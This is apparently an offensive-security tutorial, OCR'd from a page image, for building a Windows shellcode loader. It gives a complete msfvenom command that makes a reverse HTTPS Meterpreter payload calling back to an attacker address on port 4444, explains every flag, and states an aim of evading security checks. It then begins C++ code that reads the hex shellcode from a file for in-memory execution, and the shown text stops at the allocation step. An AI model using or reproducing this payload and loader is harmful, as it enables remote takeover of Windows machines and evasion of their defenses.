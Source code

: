 We will generate a **reverse HTTPS Meterpreter payload** for **Windows x64**. The payload will be encoded in **hex** format and written to a file (`shellcode_hex.txt`). Additionally, we will use **PayloadUUIDTracking** to track the payload by assigning it a UUID (`henry`), and **SSL** to encrypt communication with the handler.

```
msfvenom -p windows/x64/meterpreter_reverse_https lhost=192.168.47.155 lport=4444 PayloadUUIDTracking=true HandlerSSLCert=ssl.pem PayloadUUIDName=henry -f hex -o shellcode_hex.txt
```

- `-p windows/x64/meterpreter_reverse_https`: Specifies the reverse HTTPS Meterpreter payload for 64-bit Windows.
- `lhost=192.168.47.155`: IP address of the attacker's machine (change as per your setup).
- `lport=4444`: Listening port on the attacker's machine.
- `PayloadUUIDTracking=true`: Enables tracking of the payload via UUID.
- `HandlerSSLCert=ssl.pem`: Uses an SSL certificate for secure communication.
- `PayloadUUIDName=henry`: Assigns the name "henry" to the payload for tracking.
- `-f hex`: Specifies the output format as a hexadecimal string.
- `-o shellcode_hex.txt`: Writes the shellcode to `shellcode_hex.txt`.

We will implement a C++ program that reads the generated shellcode from the `shellcode_hex.txt` file or a remote URL, dynamically allocates executable memory using `VirtualAlloc`, and executes the shellcode while bypassing security checks by dynamically calling API functions with **lazy\_importer**.

This code reads shellcode from `shellcode_hex.txt`, converts the hex string to bytes, and executes it from memory.

```
#include <windows.h>
#include <iostream>
#include <fstream>
#include <sstream>

using namespace std;

// Convert a single hex character to a byte
unsigned char hexCharToByte(char character) {
    if (character >= '0' && character <= '9') return character - '0';
    if (character >= 'a' && character <= 'f') return character - 'a' + 10;
    if (character >= 'A' && character <= 'F') return character - 'A' + 10;
    return 0;
}

// Convert hex string to byte array
void hexStringToBytes(const string& hexString, unsigned char* byteArray, int byteArraySize) {
    for (int i = 0; i < hexString.length(); i += 2) {
        byteArray[i / 2] = hexCharToByte(hexString[i]) * 16 + hexCharToByte(hexString[i + 1]);
    }
}

int main() {
    ifstream file("shellcode_hex.txt");
    string contents;
    size_t size;

    // Check if file is open
    if (file.is_open()) {
        stringstream buffer;
        buffer << file.rdbuf();  // Copy file content to buffer
        contents = buffer.str();  // Convert buffer to string
        size = contents.length() / 2;  // Hex string, divide by 2 for byte size
        file.close();
    }

    // Allocate memory for shellcode
```